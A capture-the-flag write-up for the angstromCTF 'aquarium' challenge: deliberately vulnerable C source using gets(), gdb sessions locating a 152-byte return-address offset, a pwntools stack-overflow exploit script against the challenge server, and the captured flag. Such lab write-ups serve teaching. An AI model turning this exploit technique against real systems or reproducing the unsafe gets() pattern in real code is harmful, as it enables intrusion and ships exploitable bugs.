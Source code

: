 ## angstromCTF: aquarium
##### *tl;dr: buffer overflow to change control flow*
#### The pwn challenges for this ctf are 64-bit, which I've never worked with and understood before, thus lead me to learning some new stuff to be used in the upcoming ctfs. It's important to note that we are given the source codes for the binaries, which makes it somewhat easier to understand the control flow and spot the vulnerability. 
##### aquarium.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```
#### Analyzing the source code, we see that we are given prompts for various variables for the struct. We also spot the vulnerable gets call on the last prompt, which we can use to perform a buffer overflow. Fire up gdb and do tests on the binary, we can input anything we want on the first few prompts, but we do want to perform the overflow on the prompt for the name.:
```
$ gdb ./aquarium
  gdb-peda$ pattern create 200
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  
  gdb-peda$ r
  Enter the number of fish in your fish tank: 1000
  Enter the size of the fish in your fish tank: 1000
  Enter the amount of water in your fish tank: 1000
  Enter the width of your fish tank: 1000
  Enter the length of your fish tank: 1000
  Enter the height of your fish tank: 1000
  Enter the name of your fish tank: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
  
  [...]
  RIP: 0x40138e (<create_aquarium+469>:	ret)
  => 0x40138e <create_aquarium+469>:	ret  
  Stopped reason: SIGSEGV
  0x000000000040138e in create_aquarium ()
```
#### Trying to input 200 bytes of random characters, we can be able to trigger the segfault error, but it seems that we don't have control of our rip register. But I have learned that we do have control over it, we just need to find at which offset we can do it. We do this by simply checking the content of the `rsp` register to get the offset then we proceed to verify our control.
```
gdb-peda$ x/wx $rsp
0x7fffffffdd78:	0x41417041

gdb-peda$ pattern offset 0x41417041
1094807617 found at offset: 152

gdb-peda$ r
  [...]
  Enter the name of your fish tank: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
  Stopped reason: SIGSEGV
  0x0000424242424242 in ?? ()
```
#### And yea, there we have it we can control program flow with offset 152. But where do we want to jump to now? We've seen a flag function in the code, and that's where we want to jump to - thus we need it's address:
```
gdb-peda$ p flag
$1 = {<text variable, no debug info>} 0x4011a6 <flag>
```
#### Then what we need for our exploit is complete, we now proceed to create our exploit script and run it against the server to get our flag.
##### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'shell.actf.co'
PORT = 19305
p = remote(HOST,PORT)
# p = process('./aquarium')

#: Exploit code
offset = 'A' * 152
flag_addr = p64(0x4011a6)
exploit = offset + flag_addr

#: Send payload
for prompts in range(6):
	p.sendline('1000')

print(p.recvuntil('Enter the name of your fish tank: '))
p.sendline(exploit)
p.interactive()
```
#### We got our flag! 
`actf{overflowed_more_than_just_a_fish_tank}`
